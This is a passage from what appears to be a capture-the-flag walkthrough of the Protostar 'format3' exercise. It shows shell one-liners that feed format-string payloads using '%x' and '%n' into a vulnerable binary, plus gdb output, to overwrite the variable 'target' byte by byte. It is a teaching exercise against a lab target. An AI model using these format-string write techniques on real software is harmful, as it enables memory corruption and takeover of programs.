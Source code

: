 ```c
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

This is similar to format 2 except that we now have to precisely control what
gets written to `target`.

Again, we start by locating the start of our input string.

```shell
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA' + '%x.'*11 + '%x'" | /opt/protostar/bin/format3
AAAA0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.41414141
target is 00000000 :(
```

We also find the memory address of `target`.

```
(gdb) print &target
$2 = (int *) 0x80496f4
```

We show that we are able to write to `target`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xf4\x96\x04\x08' + '%x.'*11 + '%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.
target is 0000004c :(
```

With format strings, we can supply different addresses one after another on the
stack and supply multiple `%n` parameters to write to the least significant
byte of each address in sequence.

For example, we can write to all 4 bytes of `target`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08' + '%x.'*11 + '%n%n%n%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.
target is 58585858 :(
```

How do we control the value that gets writen for each individual byte? We use
the same `%nu` technique. Before we can place a `%nu` before each `%n`, we need
to pad our input string since each `%nu` also pops the stack. We do this by
adding `\x01\x01\x01\x01` before each address in our input string.
